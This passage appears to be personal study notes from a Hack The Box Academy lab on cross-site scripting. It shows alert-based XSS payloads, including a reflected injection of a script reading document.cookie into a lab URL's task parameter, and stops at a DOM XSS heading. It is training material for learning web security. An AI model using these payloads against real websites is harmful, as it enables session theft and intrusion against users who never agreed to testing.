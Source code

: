 ```html
<script>alert(window.origin)</script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-8.png)

test

http://94.237.52.168:35871/index.php?task=test

```sh
http://94.237.52.168:35871/index.php?task=<script>alert(document.cookie);</script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-9.png)

```sh
http://94.237.52.168:35871/index.php?task=<script>alert(document.cookie);</script>
```

![alt text](../assets/images/HTB_Academy_XSS/image-10.png)


### DOM XSS
